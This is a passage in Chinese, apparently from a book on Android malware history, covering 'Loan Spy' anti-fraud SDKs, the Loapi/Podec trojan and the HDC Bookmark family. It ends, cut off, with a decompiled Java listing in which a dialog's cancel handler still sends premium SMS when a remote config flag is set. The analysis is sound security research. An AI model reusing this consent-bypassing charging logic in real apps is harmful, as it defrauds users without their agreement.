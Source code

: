 #### ***反欺诈 SDK***

2019 年，另一种有问题的 SDK 开始引起关注：金融反欺诈 SDK。嵌入金融应用程序（通常是个人贷款应用）中，这些 SDK 用于判断用户是否为合法用户。乍一看，这种做法似乎非常合理，旨在保护客户。问题在于，这些 SDK 从设备中收集的数据过多，已经触及间谍软件的范畴。例如，最大的此类 SDK 被 Android 安全团队称为“Loan Spy”，它滥用辅助功能 API 来访问 WhatsApp 信息，然后根据用户的 WhatsApp 使用情况判断是否为合法用户。

关于这些 SDK 的公开信息很少，但在 2019 年 10 月，中国新闻网站《中国财经网》报道，当局曾突袭科技公司同盾的办公室，调查与其中一项计划相关的情况。文章《中国打击恶意贷款和网络爬虫，淡马锡支持的同盾科技牵涉其中》写道：

作为全国范围内行动的一部分，执法机构也开始打击非法在线抓取个人数据的行为。非法收集和出售个人数据的行为是一个行业的公开秘密，几乎没有所谓的大数据公司能够逃脱这一“原罪”。

像它的竞争对手一样，Loan Spy 访问用户设备上的大量敏感信息：通话记录、短信、联系人列表、GPS 位置信息等等。然而，最令人担忧的是，Loan Spy 还滥用辅助功能 API 打破了 Android 应用之间的沙盒隔离。这个 API 包括屏幕阅读器、输入模拟等支持工具，它们忽视应用之间的沙盒隔离，能够与系统上的所有应用程序完全互动。

你可能会想，这些 SDK 怎么会广泛传播，如果它们只针对金融机构的应用程序？答案是，在东南亚，金融借贷的情况与西方世界截然不同。在 2020 年前的几年中，个人信用额度的需求急剧增加，导致了超过 10,000 款小型个人借贷应用程序的诞生，这些应用针对该地区的用户。这些应用都需要一种方法来判断是否在向虚假身份放贷，否则后续很难收回贷款。因此，Loan Spy 在 Android 设备上的存在感已与故意欺诈的恶意软件网络相媲美。

在 2023 年之前的几年里，使用这些个人贷款应用的用户普遍反映出了另一个问题。贷款公司会利用之前从设备中收集的个人数据，打电话威胁那些未按时还款的人，甚至是他们的朋友或家人。Google Play 政策团队在 2023 年 4 月做出了回应，禁止个人贷款应用请求与个人信息相关的 Android 权限，例如联系人列表、电话号码、照片或位置。未来，个人贷款应用将无法以任何理由使用这些权限。

#### ***Loapi/Podec***

在 2017 年以来，Google Play 外发现的两大恶意软件家族是 Loapi/Podec 和 HDC Bookmark。其中，Loapi/Podec 家族更为引人注目。俄罗斯安全公司卡巴斯基在 2015 年 3 月的一篇博客文章《SMS 木马绕过 CAPTCHA》中首次描述了 Podec。2017 年 12 月的一篇后续博客文章《多面手》将一种名为 Loapi 的新变种与 Podec 关联起来。

Loapi/Podec 可能最初是一个简单的 SMS 欺诈恶意软件，但随着时间的推移，它变成了一个强大的后门木马。根据卡巴斯基的说法，2015 版本（Podec）能执行来自指挥控制服务器的 16 个不同命令。虽然大多数命令与高级收费注册或普通的 SMS 或电话滥用相关，但有一个值得注意的命令是要求感染的设备执行针对提供目标的 DDoS 攻击。

2017 年的变种（Loapi）在 Podec 的基础上扩展了功能，采用了复杂的插件系统，可以根据来自指挥控制服务器的指令下载和执行额外的恶意模块。特别是，卡巴斯基指出该木马能够进行广告欺诈、Monero 加密货币挖矿等多种活动。

#### ***HDC Bookmark***

这一时期的第二大侧载恶意软件家族 HDC Bookmark 显得不那么复杂。其作者批量创建了数千个应用，包名以 *com.hdc.bookmark* 开头，结尾则是一个随机数字，例如 *com.hdc.bookmark52428*（v1, 1dda）。这些应用主要针对越南，似乎与 *apkfull.mobi* 这一越南网站有关，该网站存在于 2013 到 2018 年间，提供安卓应用和游戏的破解版本。这些 HDC Bookmark 应用提供了这些内容供用户下载，费用大约为 0.65 美元。

尽管起初可能颇具盈利性，但我们认为这个恶意软件家族并未取得长期的成功。这些应用没有防范检测机制，大多数常见的 Android 反恶意软件产品能够可靠地检测到它们。Android 操作系统现在也通过向用户显示警告来保护 SMS 订阅服务的注册过程，告知用户应用试图发送高额费用的信息。这或许解释了为什么 *apkfull.mobi* 网站在 2018 年消失。

然而，HDC 书签应用程序有一个隐蔽的功能，使得它们即使用户明确拒绝，也能发送收费短信。加密的资源文件，如*assets/map.lib*，包含以 JSON 格式的配置选项。当`url_config_auto_sms`选项被启用时，无论用户是否愿意为一个盗版应用支付 15,000 越南盾，应用都会发送收费短信。在清单 2-21 中，你可以看到该订阅对话框取消按钮的点击处理程序。

```
public void onClick(DialogInterface dialog, int which) {
  try {
    this.this$0.auto_sms = DownloadImage.instance.getAuto_sms2(
      com.hdc.service.Service_mLink.url_config_auto_sms);
  } catch (Exception v0) {
    this.this$0.auto_sms = "0";
  }
  if (!this.this$0.auto_sms.equals("1")) {
    dialog.dismiss();
    if (!Service_mLink.link_redirect.equals("")) {
      com.hdc.bookmark52428.MainActivity.access$3(
        this.this$0, Service_mLink.link_redirect);
    }
    System.exit(1);
  } else {
    if ((this.this$0.typeNetwork != "VIETNAM_MOBILE") 
      && (this.this$0.typeNetwork != "BEELINE")) {
      com.hdc.ultilities.SendSMS.send(
        com.hdc.service.Service_mLink.mo_Active,
        com.hdc.service.Service_mLink.svcodeActive,
        this.this$0, this.this$0.type_so);
    } else {
      com.hdc.ultilities.SendSMS.send(
```